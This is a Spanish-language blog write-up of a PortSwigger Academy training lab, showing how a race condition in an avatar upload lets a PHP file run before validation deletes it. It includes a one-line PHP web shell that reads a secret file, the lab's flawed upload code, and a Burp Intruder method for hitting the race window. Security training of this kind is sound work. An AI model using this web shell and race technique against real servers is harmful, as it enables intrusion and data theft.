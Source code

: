 +++
author = "Alux"
title = "Portswigger Academy Learning Path: File Upload Lab 8"
date = "2022-01-13"
description = "Lab: Web shell upload via race condition"
tags = [
    "file upload",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Web shell upload via race condition

En este <cite>laboratorio[^1]</cite>la finalidad es subir una shell al servidor para luego poder extraer o recuperar informacion de este. En este caso tenemos que leer el archivo `/home/carlos/secret`

## Reconocimiento

Cuando ingresamos con la cuenta de `wiener:peter` tenemos una opcion para subir archivos, en este caso el avatar del usuario, pero al intentar subir una imagen no nos da una opcion para poder elegir imagen u otro.

![Sistema permite la subida de archivos](upload.png)

Todo bien pero el sistema parece que no ejecuta el codigo php desde la carpeta, haciendo que cualquier archivo php solo podamos ver el contenido del `php` como si fuera texto plano.

## Explotacion

Creamos el archivo php con el siguiente codigo

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Ahora se nos da el siguiente codigo para explicar que es lo que hace por atras el servidor y leyendolo entendemos que lo que hace es subir el archivo primero al servidor y ahi checarlo y validar, si es validado lo sube si no lo elimina, pero el principal problema es que se mantiene en el servidor por unos segundos el servicio. Por lo que nos podemos aprovechar de eso para explotarlo y subir directamente nuestro codigo php ya que hasta despues es validado.

```php
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?>
```
Ahora que sabemos esto, lo que intentearemos es subir el archivo al servidor, para aprovechar ese pequeno tiempo subido y obtener la key. Pero antes vamos a configurar intruder para realizar peticiones indefinidamente.

![Peticion get para la solicitud del archivo php](intruder.png)
![Ejecutar indefinidamente las peticiones con null payloads](intruder2.png)

> Despues de este paso subimos nuestro codigo php y esperamos a que salga en nuestro ataque

Ahora lo ejecutamos y entre las respuestas podemos ver como se ejecuta el codigo php y se nos muestra la key, eso si por un corto tiempo.

![Lectura de archivo secret de carlos](key.png)

Y con esto resolvimos el lab, pudiendo subir un archivo php que ejecuta acciones o comandos en el servidor.

![Laboratorio resuelto](resuelto.png)


[^1]: [Laboratorio](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition)
